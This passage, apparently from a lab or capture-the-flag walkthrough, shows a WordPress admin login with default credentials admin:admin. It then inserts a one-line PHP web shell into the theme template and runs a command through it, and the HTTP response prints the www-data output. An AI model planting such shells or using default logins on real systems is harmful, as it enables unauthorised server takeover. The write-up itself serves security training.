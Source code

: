 > This allows us to login as admin on `/wordpress/wp-login` using the credentials `admin:admin`
{: .prompt-info }

> Trying to upload a standalone plugin to get a webshell fails, as the `wordpress` user does not seem to have permissions to write into the uploads folder.
{: .prompt-danger }

However, we can update the installed and activated theme to get a webshell.  

> Therefore in the admin panel we navigate to `Appearance -> Editor -> Main Index Template (on the right)`
{: .prompt-info }

We add the following line and save the template.
```php
system($_REQUEST['c']);
```

Now we can access the main page of the `wordpress` installation and execute commands on the server.
```http
GET /wordpress/?c=id HTTP/1.1
Host: 192.168.235.50
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_e37610d84c63d90bb61a8f78587cb4b4=admin%7C1692123822%7Ca82dd7f4b146ca21c0c02cbfda541041; wp-settings-time-2=1691952180
Connection: close

HTTP/1.1 200 OK
Date: Sun, 13 Aug 2023 18:48:01 GMT
Server: Apache/2.4.18 (Ubuntu)
X-Pingback: /wordpress/xmlrpc.php
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14484
Connection: close
Content-Type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
```

> We got a web shell!
{: .prompt-info }

---
